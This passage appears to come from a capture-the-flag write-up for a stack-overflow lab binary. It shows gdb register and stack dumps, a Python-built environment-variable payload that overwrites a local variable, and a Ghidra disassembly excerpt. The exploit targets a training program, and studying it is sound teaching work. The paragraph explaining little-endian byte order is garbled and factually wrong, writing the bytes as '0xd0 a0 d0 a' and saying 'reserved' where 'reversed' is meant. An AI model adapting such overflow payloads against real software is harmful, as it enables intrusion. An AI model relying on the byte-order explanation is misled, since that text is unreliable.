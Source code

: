 ```
eax            0x1e	30
ecx            0x0	0
edx            0xb7fd9340	-1208118464
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff6f0	0xbffff6f0
ebp            0xbffff758	0xbffff758
esi            0x0	0
edi            0x0	0
eip            0x8048512	0x8048512 <main+126>
eflags         0x200296	[ PF AF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff6f0:	0x08048641	0x51515151	0xb7fff8f8	0xb7f0186e
0xbffff700:	0xb7fd7ff4	0xb7ec6165	0x41414141	0x42424242
0xbffff710:	0x43434343	0x44444444	0x45454545	0x46464646
0xbffff720:	0x47474747	0x48484848	0x49494949	0x4a4a4a4a
0xbffff730:	0x4b4b4b4b	0x4c4c4c4c	0x4d4d4d4d	0x4e4e4e4e
0xbffff740:	0x4f4f4f4f	0x50505050	0x51515151	0xbffff900
0x8048512 <main+126>:	leave  
0x8048513 <main+127>:	ret    
```

Finally, now for the correct part. Note that we need to allocate the bytes not in the normal way like this: `$ export GREENIE="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP\x0a\x0d\x0a\x0d"`, but instead using python interpreter `$ export GREENIE=$(python -c 'print("A"*64 + "\x0a\x0d\x0a\x0d")')`. The former part will treat `\x0a\x0d\x0a\x0d` as literal string. Also because the binary is considered as little endian, the payload at the end must be reserved.

0x0d 0a 0d 0a

how about these
`0xd0 a0 d0 a` are the same `0xd0 a0 d0 a0`

- `\x0a` represents the least/right most bytes: `0x00 00 00 a`
- `\x0d` -> `0x00 00 d0 a`
- `\x0a` -> `0x00 a0 00 a`
- `\x0d` -> `0xd0 a0 d0 a`



## Dissassemble from ghidra
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         AL:1           <RETURN>
             undefined4        Stack[-0x14]:4 local_14                                XREF[3]:     080484a9(W), 
                                                                                                   080484ad(R), 
                                                                                                   080484d0(R)  
             undefined4        Stack[-0x18]:4 local_18                                XREF[3]:     080484c8(W), 
                                                                                                   080484e4(R), 
                                                                                                   080484fd(R)  
             undefined1        Stack[-0x58]:1 local_58                                XREF[1]:     080484d8(*)  
```
